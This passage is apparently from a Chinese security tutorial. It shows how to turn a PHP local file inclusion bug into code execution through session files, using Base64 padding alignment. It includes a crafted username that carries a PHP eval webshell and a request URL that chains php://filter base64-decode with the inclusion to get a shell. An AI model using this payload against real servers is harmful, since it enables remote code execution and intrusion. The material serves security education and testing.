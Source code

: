 要包含session文件，需要知道文件的路径。先注册一个用户，比如Johnson。等登陆成功后，记录下cookie中的PHPSESSID的值，这里为0d0385dc6a1067f4e3406191（经过测试不注册也行，输入一个不存在的用户名，登录失败也会生成session文件，名称都为`sess_cookie值`）

访问：

```php
http://x.x.x.x/index.php?action=/var/lib/php5/sess_0d0385dc6a1067f4e3406191
```

其中`/var/lib/php5/`的session文件路径是测试出来的，常见的php-session存放位置在上面也有列出来了。

这里能包含，并且控制session文件，但要写入可用的payload，还需要绕过：

```php
$_SESSION['username'] = B ase64_encode($username);
```

如前面所示，输入的用户名会被B ase64加密。如果直接用php伪协议来解密整个session文件，由于序列化的前缀，肯定会导致乱码。

那么这里需要考虑一下B ase64的编码过程。比如编码abc。

```php
未编码: abc
转成ascii码： 97 98 99
转成对应二进制（三组，每组8位）： 01100001 01100010 01100011
重分组（四组，每组6位）： 011000 010110 001001 100011
每组高位补零，变为每组8位：00011000 00010110 00001001 00100011
每组对应转为十进制： 24 22 9 35
查B ase64编码表得： Y W J j
```

再比如对“ABCD”进行base64编码：

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-e553322ab427a9b2032bd65cf58ef8a07b4e580d.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-e553322ab427a9b2032bd65cf58ef8a07b4e580d.png)

对于不足6位的补零（图中浅红色的4位），索引(编码)为`A`；对于最后不足3字节，进行补零处理（图中红色部分），以“=”替代，因此，“ABCD”的base64编码为：`QUJDRA==`。

那么来考虑一下session的前缀：`username|s:12:"`，中间的数字12表示后面B ase64串的长度。当B ase64串的长度小于100时，前缀的长度固定为15个字符，当B ase64串的长度大于100小于1000时，前缀的长度固定为16个字符。

由于16个字符，恰好满足以下条件：

```php
16个字符 => 16 * 6 = 96 位 => 96 mod 8 = 0
```

也就是说，当对session文件进行B ase64解密时，前16个字符固然被解密为乱码，但不会再影响从第17个字符后的部分也就是B ase64加密后的username。

那么这里注册一个账号`JohnsonJohnsonJohnsonJohnsonJohnsonJohnsonJohnsonJohnsonJohnson<?php e val($_GET['abcdefg']) ?>`,其B ase64加密后的长度为128，大于100。（经过测试不注册也行，输入一个不存在的用户名，登录失败也会生成session文件，名称都为`sess_cookie值`）

访问：`http://x.x.x.x/index.php ?action=php://filter/read=convert.B ase64-decode/resource=/var/lib/php5/sess_0d0385dc6a1067f4e3406191 &abcdefg=phpinfo();`

成功执行，即成功getshell了。

例子2：现在有一个session.php可控用户会话信息值：

```php
    session_start();
    $username = $_POST['username'];
    $_SESSION['username'] = $username;
```
